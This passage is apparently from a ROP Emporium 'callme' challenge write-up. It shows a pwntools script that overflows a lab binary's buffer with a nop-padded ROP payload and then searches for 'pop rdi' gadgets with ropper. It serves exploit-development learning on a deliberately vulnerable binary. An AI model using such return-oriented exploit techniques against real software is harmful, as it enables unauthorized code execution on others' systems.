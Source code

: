 ```python
from pwn import *

# Set up pwntools to work with this binary
elf = context.binary = ELF('callme')
p = process()

# Number of padding bytes (to offset RIP)
padding = 40

# # Load ROP gadgets
# rop = ROP(elf)
# rop.system(next(elf.search(b'/bin/sh')))

# # Print the ROP chain
# pprint(rop.gadgets)
# print(rop.dump())

# Crafting payload, contains x nops of padding, ret, rop chain
payload = flat(
	asm('nop') * padding,
	next(elf.search(asm('ret'))),
	elf.symbols['usefulFunction']
	# rop.chain(),
)

# Writing payload to file on same directory
f = open("payload", "wb")
f.write(payload)

# Send payload after asked for input
p.sendlineafter(">", payload)

p.interactive()
```

We will get the same message if we were to call callme_one or any of the other callme's.

First idea: Try to call usefulFunction, and before each function call (callme_one, etc), we will pass the parameters

Checking ropper we have the same rop gadgets which was found previously in usefulGadgets

```python
wayell@ubuntu:~/Desktop/ROPEmporium/3.callme$ ropper --file callme --search 'pop rdi'
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret;
```
